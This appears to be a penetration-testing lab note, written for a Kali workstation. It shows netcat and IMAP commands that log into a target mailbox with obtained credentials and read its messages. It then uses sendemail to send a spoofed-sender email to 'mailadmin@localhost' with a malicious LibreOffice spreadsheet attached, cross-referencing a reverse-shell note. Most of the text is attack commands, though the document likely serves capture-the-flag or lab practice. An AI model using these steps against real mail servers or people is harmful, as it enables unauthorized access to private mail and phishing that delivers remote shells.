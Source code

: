 #### Reading emails
```bash - kali
nc $TARGET 143
```

```bash - kali
tag login $USER@localhost $PASSWORD
```

```bash - kali
tag LIST "" "*"
```

```bash - kali
tag SELECT INBOX
```

Notice there are 5 total messages.

```bash - kali
tag STATUS INBOX (MESSAGES)
```

```bash - kali
tag fetch 1 (BODY[1])
```

We can read the rest of the messages with the following command:

```bash - kali
tag fetch 2:5 BODY[HEADER] BODY[1]
```

#### Send malicious email

Below, we are sending a malicious email with attachments from:
[[0._Reverse shells (WEB)#odt LibreOffice]]
OR
[[0._Reverse shells (WEB)#hta - ods LibreOffice]]

![[rlwrap]]

```bash - kali
sendemail -f 'jonas@localhost' \
                       -t 'mailadmin@localhost' \
                       -s $TARGET:25 \
                       -u 'Your spreadsheet' \
                       -m 'Here is your requested spreadsheet' \
                       -a calc.ods
```





